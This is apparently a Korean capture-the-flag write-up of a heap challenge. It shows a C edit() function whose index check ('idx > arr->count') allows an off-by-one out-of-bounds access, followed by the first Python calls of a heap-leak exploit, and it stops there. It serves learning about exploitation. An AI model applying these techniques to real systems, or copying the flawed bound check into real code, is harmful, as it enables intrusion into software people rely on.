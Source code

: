 ``` bash
2. List
0. Exit
> 2

List Data
<ARRAY(4)>
[00] <EMPTY>
[01] <EMPTY>
[02] <EMPTY>
[03] <EMPTY>
```
입력값에 따라 heap에 데이터를 자유롭게 저장하거나 조회할 수 있다.

## 0x01. Vulnerability
취약점은 `edit()` 함수에서 `Array`를 다룰 때 발생한다.
``` c
static int edit(data_t *data){
  ...
  switch(data->type){
    case TYPE_ARRAY:
      arr_t *arr = data->p_arr;

      printf("index: ");
      unsigned idx = getint();
      if(idx > arr->count)
        return -1;
      ...
  }
}
```
입력한 `idx` 값이 `arr->count`보다 큰 지 검증하는데, 두 값이 같을 경우를 검증하지 않아 OOB가 발생한다.

예를 들어 `arr->count`가 `4`이면 `data[0]~data[3]`이 생성되는데, 있지도 않은 `data[4]`에 접근할 수 있어 `arr` 바로 다음 영역에 접근할 수 있다.

새삼 이 간단한 취약점으로 쉘이 따인다니 놀랍다... 역시 취약점은 우선 exploitability를 막론하고 bug를 찾는다는 관점으로 봐야하는 것 같다.

## 0x02. Exploit
### Heap leak
우선 취약점을 트리거하기 위해 다음과 같이 `Array`를 할당한다.
``` python
    edit(s, 'u', [], 'a', 1)
    edit(s, 'u', [0], 'a', 4)
    edit(s, 'u', [0, 0], 'a', 4)
    edit(s, 'u', [0, 1], 'a', 4)
    edit(s, 'u', [0, 2], 'a', 4)
    edit(s, 'u', [0, 3], 'a', 4)
```
여기에서 `edit()`의 세 번째 인자에 들어가는 list는 `Array`의 `index`를 뜻하는데, 예를 들면 다음과 같다.

- [] : `root->*p_arr`
- [0] : [00]
- [0, 1] : [00] -> [01]
